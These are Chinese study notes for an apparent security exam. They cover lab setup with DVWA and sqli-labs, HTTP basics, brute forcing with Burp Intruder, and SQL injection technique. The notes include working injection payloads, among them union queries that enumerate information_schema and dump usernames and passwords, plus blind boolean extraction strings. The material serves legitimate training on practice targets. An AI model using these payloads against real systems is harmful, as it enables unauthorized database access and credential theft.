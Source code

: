 # 考试说明
100 / 70
20 + 50 + 30（选择题 CTF-Web PT ）

# 知识体系
* Web安全 -- 60-70
* 数据库  -- 10-20
* 操作系统

  CTF - 5 key1{sdfghjkl}
  1. SQL注入
  2. 文件上传
  3. 文件包含
  4. 命令执行
  5. XSS
  6. 代码审计 - PHP
  7. 日志分析
  PT - Windows
  1. 后台
  2. 数据库
  3. 桌面 administrator
# Web安全
## 环境搭建
  PC：8G 500G
  公网IP - VPS

  虚拟机：VM/Vbox -- 快照
  攻击：Kali - vm/Backbox; Windows 7/10
  靶机：owaspbwa/vulhub/vulnhub/pensterlab

  Windows：
    1. phpstudy
    2. dvwa -- /www
    3. config.inc.php -- mysql
## HTTP协议
  * 基于请求和响应
  * 明文传输 -- https（SSL/TLS） 80/443
  * 无状态 -- Cookie/SessionID
### GET vs POST
  * GET 参数放在URL里
  * POST 参数放在请求正文里
  * GET 有大小限制，POST没有
### 请求
  * 请求头
    - Cookie
  * 请求正文
### 响应
  * 响应头
    - 响应状态码 200/300-301-302/400-401-404-403/500
  * 响应正文
### Tool
  * Burp -- proxy -- BurpUnlimited.jar
    - Proxy -- options
    - browser -- proxy
  * Firefox -- FoxyProxy Standard
  * Chrome -- SwitchyOmega
### 暴力破解
  * dvwa - low
  1. 抓包
  2. Intruder （Ctrl + I）
  3. Intruder -- position -- clear -- add
  4. payloads -- load
  5. attack
  6. 找不一样的（status、length）
## SQL注入
### 注入原理
  select * from user where id='1' order by 5 -- ss'  trim
  * 用户的输入作为SQL语句来执行
### 注入流程
  1. 判断注入点 '
    - id=1 -- 数字
    - id='1' -- 字符
    - 注释 # +--+
    - 万能密码 'or''='
    - like '%1%'
  2. 库
  3. 表
  4. 字段
  5. 内容
### 注入类型
select * from user where id=1 order by 5
#### 联合查询
  1. order by 5 -- 列数（select后，折半查找）
  2. union select 1,2 -- ss -- 哪些列在页面显示
    - version()/user()/database()/@@basedir
  3. 表 information_schema.tables/columns（mysql>5.0）
    1' union select table_name,2 from information_schema.tables where table_schema = database() -- ss
  4. 字段
    1' union select column_name,2 from information_schema.columns where table_schema = database() and table_name='users' -- ss
  5. 内容
    1' union select user,password from users -- ss
    - group_concat(user,0x7e,password)
#### 暴力破解(布尔注入)
  1. and exists(select * from admin) -- ss  -->表
  2. and exists(select user from admin) -- ss  -->列
  3. and ascii(mid((select user from users limit 0,1),1,1))>96
    - 0-9 48-57
    - a-z 97-122
    - A-Z 65-90
    - length

    * 练习1 - sqli-lab：3

#### 报错注入
#### 延时注入
#### 绕过
### 注入工具
